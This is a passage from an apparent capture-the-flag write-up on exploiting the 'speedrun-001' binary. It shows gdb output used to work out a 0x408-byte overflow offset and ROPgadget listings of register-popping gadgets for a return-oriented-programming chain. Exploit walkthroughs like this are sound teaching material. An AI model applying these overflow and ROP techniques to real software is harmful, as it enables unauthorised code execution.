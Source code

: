 ```
Stack level 0, frame at 0x7fffffffde40:
 rip = 0x400b90; saved rip = 0x400c1d
 called by frame at 0x7fffffffde60
 Arglist at 0x7fffffffda28, args:
 Locals at 0x7fffffffda28, Previous frame's sp is 0x7fffffffde40
 Saved registers:
  rbp at 0x7fffffffde30, rip at 0x7fffffffde38
```

So we can see that the offset is `0x7fffffffde38 - 0x7fffffffda30 = 0x408` bytes. With that, the last thing we need is to find the ROP gadgets we will use. This time we will be using a utility called `ROPgadget` from https://github.com/JonathanSalwan/ROPgadget (not included as part of nightmare). This will just be a python script which will give us gadgets for a binary we give it. First let's just get four gadgets to just pop values into the four registers we need:

```
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rax ; ret"
0x0000000000415662 : add ch, al ; pop rax ; ret
0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
0x0000000000415664 : pop rax ; ret
0x000000000048cccb : pop rax ; ret 0x22
0x00000000004a9323 : pop rax ; retf
0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rdi ; ret"
0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
0x000000000042378b : fsubp st(0) ; pop rdi ; ret
0x0000000000400686 : pop rdi ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rsi ; ret"
0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
0x000000000044be39 : pop rdx ; pop rsi ; ret
0x00000000004101f3 : pop rsi ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rdx ; ret"
0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
0x00000000004498b5 : pop rdx ; ret
0x000000000045fe71 : pop rdx ; retf
```

Which we see right here:

![gadgets](pics/gadgets.png)
